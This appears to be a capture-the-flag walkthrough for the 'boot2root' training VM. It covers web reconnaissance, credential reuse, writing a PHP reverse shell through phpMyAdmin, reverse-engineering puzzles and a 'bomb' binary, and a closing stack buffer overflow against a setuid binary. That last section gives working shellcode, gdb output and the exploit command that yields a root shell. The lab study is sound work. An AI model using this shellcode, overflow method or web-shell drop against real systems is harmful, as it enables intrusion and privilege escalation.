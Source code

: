# boot2root walkthrough

First we need to configure network connection in VBox as "Bridge" or "Virtual network".
Now we can scan VBox network with nmap to find boot2root ips and open ports.

![ip_network](screenshots/ip_network.png)

There is a running web site, so we scan 80 and 443 with dirb to find available directories:


![nmap_result](screenshots/nmap_result.png)


Now we have three attack vectors: /fonts (http) and /phpmyadmin, /webmail, /forum (https).
- fonts directory is not interesting for us
- phpmyadmin request creditnails. We wouldn't be able to brute it((
- webmail is the same as phpmyadmin
- forum is the only available vector which we can try to search for something interesting

On the forum we can find "theme" created by lmezard called "Probleme login?".
It's a log which wecan try to examine. Here we can find string which looks like user credentials:
If we try it to log in on forum we will succeed. Forum login/pass - lmezard:!q\]Ej?*5K5cy*AJ

![forum](screenshots/forum.png)

After that we can try to access "Contact" tab and now have lmezard's E-mail adress. If we try to use it to auth /webmail we will succeed again.
/webmail login/pass:

    laurie@borntosec.net:!q\]Ej?*5K5cy*AJ

In mailbox we have two messages, one of them includes creds for something called "database" which is /phpmyadmin login/pass:

    root/Fg-'kKXBj87E:aJ$

![message](screenshots/message.png)

Now it is time for explotation. From phpmyadmin we are able to execute SQL queries which means that we can send some payload into a file.
First we need find directory where we have access to write files. But we already have found one, look a dirb output again.
Trying several directories and drop php file, inside one of the directories var/www/forum/templates_c we have enougth rights.

![drop](screenshots/drop.png)

Now we need to craete reverse shell, we can generate it in base64 using 'https://www.revshells.com/'.
And we drop full code with PHP method base64_decode in p.php, start nc, open p.php in browser, improve our shell with python.

![reverse_shell](screenshots/reverse_shell.png)

Now we need to explore system. We can look at /home directory, there is dir LOOKATME which contains file password. NICE users login/password is lmezard:G!@M6f4Eatau{sF"

![lmezard's_home_dir](screenshots/lmezard's_home_dir.png)

When we logged as lmezard, we found files in his home directory. 'fun' is tar archive, so it will be little more convvenient, to work with it on local machine.
We just copy 'fun' to /forum/templates_c and use chmod 777 (lol). Now we can download file with wget on local machine.

![fun_download](screenshots/fun_download.png)

Then we find a lot pcap files in dir. To deobfuscate it we use sh script. When job is done we use enfile as C-code, compile it and have password, which needed to be cripted with sha-256. hmmm... use sha256 and ssh login/password laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
NICE

![pcap_handle](screenshots/pcap_handle.png)

Now we fnally can connect to machine via ssh. We have README, which says we must defuse the bomb and 'bomb'-ELF exutable.
We haven't passion to start binaries named bomb so let's look to strings. We can see all 'phases', that we need to defuse bomb.
We had hint in README, so easily go to stage two. Let's find all passwords with hint. I thought...
But it doesnt work for 2nd level. OK, we download radare2, and here we go.

2nd level. 
We have two simple functions. First, we read six numbers from stdin. If numbers count not equal six, we exlode bomb.
Simply run debugger and watch at cmp instruction. At the end we have 1 2 6 24 120 720

![l2_read_six_nums](screenshots/bomb/l2_read_six_nums.png)

3d level.
Func want two numbers and letter. OKAY. It is only begin. We see a lot of jumps fahrer from start. There is switch-case construction.
It depend from first number value. So we try everything from first condition and we're good.
In the HINT our letter is b, so second group of values is ours. 1 b 214. OK

![l3_beginning](screenshots/bomb/l3_beginning.png)
![l3_general](screenshots/bomb/l3_general.png)

4th level.
Owh. We're bad. We have recoursive function here. It will be hard. 
We have internet, so we can install ghydra with 'r2pm --ci r2ghydra'.
OKAY. Now we decompile our phase_4 
Simply decompil function and see pritty easy task. Write python script which copy our function.
It's just fibonacci function and we need to get 55 It is 9th number of sequense and answer 9

![l4_recursive.png](screenshots/bomb/l4_recursive.png)

5th level.
Here we see some tricks with arrays. OKAY. The good solution - copy function in python and after it copy alghoritm.
So we play with script and solve this problem. Answer - opekmq

![l5_decompiled.png](screenshots/bomb/l5_decompiled.png)

6th level.
Here we have REALY coplex function. Sowe need a few hours, debugger and patient. We run and rerun this program. 
In we end we have six numbers. Password - 4 2 6 3 1 5

![l6_complex.png](screenshots/bomb/l6_complex.png)

Now we have all passwords. We remove all whitespases and here we go, next login/password

![thor_password.png](screenshots/thor_password.png)

And in thor acc we have turtle and README. README doesn't tell anything usefull, so we look at file. It's text with directions of tutle. In Mother Russia we did this things it school. ON PAPER. And now We just write python script.

![turtle.dir](screenshots/turtle.png)

We done with it to. Script works fine and we have some letters. Now we can MD5 them and get next login/pass 

![SLASH_md5](screenshots/SLASH_md5.png)

Given setuid binary exploit_me. Lets disassemble it:

    (gdb) set disassembly-flavor intel
    (gdb) disass main
    Dump of assembler code for function main:
    0x080483f4 <+0>:	push   ebp
    0x080483f5 <+1>:	mov    ebp,esp
    0x080483f7 <+3>:	and    esp,0xfffffff0
    0x080483fa <+6>:	sub    esp,0x90
    0x08048400 <+12>:	cmp    DWORD PTR [ebp+0x8],0x1
    0x08048404 <+16>:	jg     0x804840d <main+25>
    0x08048406 <+18>:	mov    eax,0x1
    0x0804840b <+23>:	jmp    0x8048436 <main+66>
    0x0804840d <+25>:	mov    eax,DWORD PTR [ebp+0xc]
    0x08048410 <+28>:	add    eax,0x4
    0x08048413 <+31>:	mov    eax,DWORD PTR [eax]
    0x08048415 <+33>:	mov    DWORD PTR [esp+0x4],eax
    0x08048419 <+37>:	lea    eax,[esp+0x10]
    0x0804841d <+41>:	mov    DWORD PTR [esp],eax
    0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
    0x08048425 <+49>:	lea    eax,[esp+0x10]
    0x08048429 <+53>:	mov    DWORD PTR [esp],eax
    0x0804842c <+56>:	call   0x8048310 <puts@plt>
    0x08048431 <+61>:	mov    eax,0x0
    0x08048436 <+66>:	leave
    0x08048437 <+67>:	ret
    End of assembler dump.

There is unprotected strcpy from command line arguments into buffer, we can abuse that by writing shellcode inside env variable and overwrite return eip address to point on this variable address.
We can use this shellcode:

    \x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80

Assembly of this shellcode will look like this:

    xor    ebx,ebx
    mov    eax,ebx
    mov    al,0x17
    int    0x80
    xor    ebx,ebx
    mov    eax,ebx
    mov    al,0x2e
    int    0x80
    xor    eax,eax
    push   eax
    push   0x68732f2f
    push   0x6e69622f
    mov    ebx,esp
    push   eax
    push   ebx
    mov    ecx,esp
    xor    edx,edx
    mov    al,0xb
    int    0x80

First we need to create shellcode env variable:

    zaz@BornToSecHackMe:~$ export SHELLCODE=$(python -c 'print("\x90"*10+"\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")')

Next we need to find offset to eip and SHELLCODE env variable address:

    zaz@BornToSecHackMe:~$ gdb ./exploit_me
    (gdb) b *main+49
    Breakpoint 1 at 0x8048425
    (gdb) run aaaabbbbccccdddd
    Starting program: /home/zaz/exploit_me aaaabbbbccccdddd

    Breakpoint 1, 0x08048425 in main ()
    (gdb) info frame
    Stack level 0, frame at 0xbffff6d0:
    eip = 0x8048425 in main; saved eip 0xb7e454d3
    Arglist at 0xbffff6c8, args:
    Locals at 0xbffff6c8, Previous frame's sp is 0xbffff6d0
    Saved registers:
    ebp at 0xbffff6c8, eip at 0xbffff6cc
    (gdb) x/50x $sp
    0xbffff630:	0xbffff640	0xbffff8ac	0x00000001	0xb7ec3c49
    0xbffff640:	0x61616161	0x62626262	0x63636363	0x64646464
    0xbffff650:	0xbffff700	0xb7fdd000	0x00000000	0xb7e5ec73
    0xbffff660:	0x08048241	0x00000000	0x00c30000	0x00000001
    0xbffff670:	0xbffff897	0x0000002f	0xbffff6cc	0xb7fd0ff4
    0xbffff680:	0x08048440	0x080496e8	0x00000002	0x080482dd
    0xbffff690:	0xb7fd13e4	0x00000016	0x080496e8	0x08048461
    0xbffff6a0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
    0xbffff6b0:	0xb7fed280	0x00000000	0x08048449	0xb7fd0ff4
    0xbffff6c0:	0x08048440	0x00000000	0x00000000	0xb7e454d3
    0xbffff6d0:	0x00000002	0xbffff764	0xbffff770	0xb7fdc858
    0xbffff6e0:	0x00000000	0xbffff71c	0xbffff770	0x00000000
    0xbffff6f0:	0x0804820c	0xb7fd0ff4
    (gdb) x/20s *((char**)environ)
    0xbffff8bd:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\061ۉذ\027̀1ۉذ.̀1\300Ph//shh/bin\211\343PS\211\341\061Ұ\v̀"

Shellcode address is 0xbffff8bd, offset from buffer to old eip is 140 bytes.
Now we can perform our exploit:

    zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print("a"*140 + "\xbd\xf8\xff\xbf")')
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa����
    # whoami
    root
    #




